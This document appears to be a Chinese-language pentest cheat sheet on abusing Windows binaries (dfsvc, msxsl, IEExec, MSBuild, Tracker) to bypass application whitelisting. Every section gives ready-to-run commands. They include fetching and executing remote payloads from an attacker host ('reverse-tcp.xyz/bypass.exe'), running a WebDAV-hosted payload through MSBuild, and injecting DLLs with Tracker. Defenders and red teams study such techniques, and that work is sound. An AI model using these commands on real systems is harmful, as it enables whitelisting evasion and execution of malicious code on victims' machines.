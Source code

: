#### DFSVC

dfsvc.exe是用来检查应用程序是否已经安装并且是最新的，如果需要的话将应用程序下载到用户AppData中的ClickOnce文件夹，然后从当前位置（随着每次更新而改变）启动它。NetSPI团队在之前有分析过利用ClickOnce这种方法在钓鱼当中的利用，但在渗透中还是需要一定的场景。

```
rundll32.exe dfshim.dll,ShOpenVerbApplication http://reverse-tcp.xyz/application/?param1=foo
```

Links:

- http://www.sixdub.net/?p=555

#### MSXSL

根据Microsoft的msxsl.exe命令行程序，用户能够使用Microsoft XSL处理器执行命令行可扩展样式表语言（XSL）。 但是，这个二进制文件可以用来执行恶意的JavaScript代码并绕过应用程序白名单保护。

```powershell
msxsl.exe customers.xml script.xsl
```

Links:

- https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/

#### IEExec

IEExec.exe也是.Net框架中的一个可执行文件，能够通过指定URL来运行托管在远程目标上的应用程序。

```powershell
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\IEExec.exe http://reverse-tcp.xyz/bypass.exe
```

Links:

- https://pentestlab.blog/2017/06/13/applocker-bypass-ieexec/

#### MSBuild

MSBuild，它引入一种新的基于 XML 的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild 项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。MSBuild 编译后生成的是.exe

它的利用姿势是相对新颖的，可以参考以下文章

- https://www.anquanke.com/post/id/84597
- https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
- https://github.com/Cn33liz/MSBuildShell

```powershell
C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe File.csproj
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

#### Tracker

Visual studio的一部分。需要1028子文件夹中的TrackerUI.dll，可以开启一个进程并注入dll， 当然也可以直接运行exe文件

```powershell
Tracker.exe /c "C:\Windows\System32\calc.exe"
Tracker.exe /d .\calc.dll /c C:\Windows\write.exe
```
